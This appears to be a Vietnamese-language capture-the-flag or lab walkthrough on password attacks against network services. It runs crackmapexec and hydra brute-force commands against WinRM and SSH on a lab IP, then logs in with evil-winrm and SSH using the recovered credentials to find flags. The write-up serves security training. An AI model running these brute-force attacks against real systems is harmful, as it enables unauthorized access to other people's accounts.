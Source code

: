 <h1>Password Attacks: Network Services</h1>

![image](https://github.com/user-attachments/assets/a4f0bbce-5a49-4c50-9124-ba0733458f1c)

![image](https://github.com/user-attachments/assets/162084ec-59a1-4703-a8af-d94da14fad11)

![image](https://github.com/user-attachments/assets/260a06c9-3de9-49a8-a01c-e26be94cdfa8)

Chạy `crackmapexec winrm 10.129.167.69 -u username.list -p password.list` lấy user:pass từ 2 file và tấn công vét cạn:

![image](https://github.com/user-attachments/assets/f40f909e-5bec-42b9-9db6-ec5d4f217948)

Tôi có được john:november và chạy `evil-winrm -i 10.129.167.69 -u john -p november` để vào và tìm thấy flag trong Desktop

![image](https://github.com/user-attachments/assets/145f0f98-cc82-4842-9238-4a04e13fb867)

Dùng `hydra -L username.list -P password.list ssh://10.129.167.69` để tấn công vét cạn ssh:

![image](https://github.com/user-attachments/assets/d01dc777-4cf6-44e4-813c-ab22b405ea83)

Tôi có được dennis:rockstar, ssh vào và tìm thấy flag trong Desktop:

![image](https://github.com/user-attachments/assets/56fa5227-3033-4002-8c6c-c9d5a1db04cc)


Do tôi thấy có các user ở đây nên nghĩ chắc là 2 câu dưới cũng chỉ lanh quanh user này thôi nên tạo hẳn user.list để chứa mấy cái user này cho đẩy nhanh thời gian làm bài:

![image](https://github.com/user-attachments/assets/6f9a261b-a5a0-46ef-9b71-64b88c8980cf)

![image](https://github.com/user-attachments/assets/7791c747-33e3-4773-bb78-c97ff7df3c71)
